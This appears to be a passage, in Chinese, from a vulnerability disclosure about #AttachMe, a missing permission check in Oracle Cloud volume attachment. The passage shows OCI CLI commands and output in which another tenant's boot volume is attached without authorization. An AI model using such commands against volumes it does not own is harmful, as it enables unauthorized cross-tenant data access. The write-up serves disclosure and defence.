然而，正如我们所发现的，挂载卷时VOLUME_WRITE权限验证存在漏洞，这使得在未经授权的情况下可能可以挂载任何卷，此外，还可以跨不同的租户进行挂载：我们设法将一个租户的卷挂载到另一个租户的计算实例。  
### 演示  
  
当未经授权的用户尝试对卷执行任何操作时，该服务（正确地）返回一个错误，指示用户缺少所需的权限：  
```
elad_gabay@cloudshell:~ (us-ashburn-1)$ oci bv volume get --volume-id ocid1.bootvolume.oc1.iad.abuwcljrybvvdsn*******************************************
ServiceError:
{
  "client_version": "`Oracle`-PythonSDK/2.69.0, `Oracle`-PythonCLI/3.10.0",
  "code": "NotAuthorizedOrNotFound",
  "logging_tips": "Please run the OCI CLI command using --debug flag to find more debug information.",
  "message": "Authorization failed or requested resource not found.",
  "opc-request-id": "DFB9SCC25*****",
  "operation_name": "get_volume",
  "request_endpoint": "GET https://iaas.us-ashburn-`Oracle`cloud.com/20160918/volumes/ocid1.bootvolume.oc1.iad.abuwcljrybvvdsn*******************************************",
  "status": 404,
  "target_service": "blockstorage",
  "timestamp": "2022-06-07114:12:21.408280",
  "troubleshooting_tips": "See https://docs.`Oracle`.com/iaas/Content/API/References/apierrors.htm#apierrors_404_404_notauthorizedornotfound for more information about resolving this error. If you are unable to resolve this issue, run this CLI command with --debug option and contact `Oracle` support and provide them the full error message."
}

```  
  
但是，在修复#AttachMe 之前，无论用户是否具有足够的权限，尝试将卷挂载到计算实例都会成功：  
```
elad_gabay@cloudshell:~(us-ashburn-1)$ oci compute volume-attachment attach --instance-id ocid1.instance.oc1.iad.anuwcljrixjtluica******************************************* --volume-id ocid1.bootvolume.oc1.iad.abuwcljrybvvdsn3******************************************* --type paravirtualized
{
  "data": {
    "attachment-type": "paravirtualized",
    "availability-domain": "zSfH:US-ASHBURN-AD-1",
    "compartment-id": "ocid1.tenancy.oc1..aaaaaaaaote2dzazv**********************",
    "device": "null",
    "display-name": "volumeattachment20220607141228",
    "id": "ocid1.volumeattachment.oc1.iad.anuwcljrixjtluic***********************",
    "instance-id": "ocid1.instance-oc1.iad.anuwcljrixjtluica*********************",
    "is-multipath": null,
    "is-pv-encryption-in-transit-enabled":false,
    "is-read-only":false,
    "is-shareable": false,
    "iscsi-login-state": null,
    "lifecycle-state": "ATTACHING",
    "time-created": "2022-06-07T14:12:29.027000+00:00",
    "volume-id": "ocid1.bootvolume.oc1.iad.abuwcljrybvvdsn3***********************",
    },
    "etag": "992e06ff86b86a5fe732308092a55***********************************"
}

```  
  